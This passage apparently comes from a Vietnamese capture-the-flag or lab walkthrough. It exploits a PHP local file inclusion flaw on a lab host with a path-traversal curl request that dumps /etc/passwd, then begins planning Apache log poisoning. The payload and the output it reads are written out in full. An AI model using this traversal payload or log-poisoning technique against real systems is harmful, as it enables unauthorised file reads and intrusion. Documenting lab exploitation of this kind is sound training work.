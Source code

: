Ta thấy ở đây có LFI khi mà sử dụng `include $_GET['show'] . $ext;`.

Thử đọc file `/etc/passwd` để kiểm chứng:

```console 
$ curl -X GET 'http://192.168.62.216/dashboard.php?show=pending../../../../../../../etc/passwd&ext=' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Cookie: PHPSESSID=5nri5anhvo8a4k05vr2mbi48ci'

...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
liam:x:1000:1000::/home/liam:/bin/sh
_rpc:x:113:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:114:65534::/var/lib/nfs:/usr/sbin/nologin
...
```

Theo kết quả của `nmap`, ta biết là server engine đang sử dụng là Apache, ta có thể log-poisioning với file `access.log`, trước hết phải xem format của file `access.log`:
